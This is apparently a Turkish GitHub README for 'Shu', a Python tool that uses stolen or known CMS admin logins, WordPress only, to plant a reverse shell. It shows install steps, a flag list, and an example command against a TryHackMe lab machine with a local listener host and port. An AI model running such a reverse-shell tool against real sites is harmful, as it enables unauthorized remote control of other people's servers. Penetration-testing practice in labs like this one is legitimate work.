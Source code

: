# Shu
Shu, hazır içerik yönetim sistemlerinin zayıflıklarından yararlanarak reverse shell yükleyen bir programdır.

## Programın indirilmesi ve kurulması

```
git clone https://github.com/Narisca/Shu/
cd Shu
pip3 install -r requirements.txt
```

bu komutları kullanarak programı indirip kurduktan sonra `python3 shu.py --help` komutunu kullanarak programı nasıl çalıştırabileceğinizi öğrenebilirsiniz.

![4](https://github.com/Narisca/Shu/assets/165813191/0efbd39a-d976-461d-ba17-b329aa65b53f)

## Örnek kullanm

Örnek olması amacıyla tryhackme.com platformunda bulunan mr.robot makinesi üzerinde deneyeceğim.

```
python3 shu.py --target http://10.10.236.255/wp-login.php --username elliot --password ER28-0652 --local-host 10.9.0.25 --local-port 4444 --plugin wordpress
```

![3](https://github.com/Narisca/Shu/assets/165813191/9a0ddbf2-1965-4322-affb-a1086365f3ce)

## Parametreler

```
--target-url,  -t    : Hedef sitenin giriş sayfasını belirtmenizi sağlar.
--plugins,     -x    : Hedef sitenin içerik yönetim sistemini belirtmenizi sağlar..
--username,    -u    : Kullanıcı adını belirtmenizi sağlar.
--password,    -p    : Kullanıcı şifresini belirtmenizi sağlar.
--local-host,  -L    : Yerel ağ adresinizi belirtmenizi sağlar.
--local-port,  -P    : Dinlenilen port'u berlirtmenizi sağlar.
```

## Kullanılabilir hazır içerik yönetim sistemleri
- wordpress
